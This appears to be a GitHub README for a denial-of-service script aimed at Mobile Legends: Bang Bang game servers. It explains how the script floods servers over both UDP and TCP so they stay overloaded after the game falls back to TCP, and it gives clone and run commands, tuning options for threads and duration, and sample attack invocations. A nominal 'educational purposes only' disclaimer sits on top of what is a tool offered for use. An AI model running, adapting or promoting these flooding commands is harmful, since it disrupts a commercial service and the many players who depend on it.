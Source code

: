 <p align="center"><img src="https://i.imgur.com/6WaJAdA.png" width="187px" height="125px"></p>
<h1 align="center">MLGB (Mobile Legends: Gang Bang)</h1>

<h5 align="center">DoS attack script for MLBB (Mobile Legends: Bang Bang) game servers.</h5>
<em><h6 align="center">This script is provided for educational purposes only. Unauthorized use against servers without explicit permission is illegal and unethical. The authors of this script are not responsible for any misuse.</h6></em>

<p align="center"><img src="https://i.imgur.com/anFgJFI.png"></p>

## Overview
**MLGB** is a Denial of Service (DoS) attack script specifically developed to disrupt the game servers of MLBB. It leverages both UDP and TCP flooding techniques to overwhelm the target server, potentially causing lag, disconnections, or even crashes.

## Why TCP?
While MLBB primarily uses UDP for communication, the game automatically switches to TCP if the UDP connection becomes unstable or fails. This script is designed to exploit that by attacking both protocols, ensuring the server remains overloaded even after protocol switching.

## Get Started
```shell script
git clone https://github.com/v9lu/mlgb.git
cd mlgb
python3 mlgb.py --target <ip:port>
```

## Options
```shell script
--help (-h) # Show help message
--target (-t) # IP:port of the target server
--udp_thread_count (-utc) # Number of UDP attack threads (default: 25)
--tcp_thread_count (-ttc) # Number of TCP attack threads (default: 25)
--udp_duration (-ud) # UDP attack duration in seconds (default: 300)
--tcp_duration (-td) # TCP attack duration in seconds (default: 300)
```

## Example Usage
1. **Basic Attack**: 25 threads for UDP and TCP attacks, 5 minutes duration on a server with IP `192.168.1.100` and port `5000`:
```shell script
python3 mlgb.py -t 192.168.1.100:5000
```
2. **Increased Threads**: 30 threads for UDP attack and 50 threads for TCP attack on the same server:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -utc 30 -ttc 50
```
3. **Short Attack**: 25 threads for UDP and TCP attacks, each lasting 1 minute:
```shell script
python3 mlgb.py -t 192.168.1.100:5000 -ud 60 -td 60
```
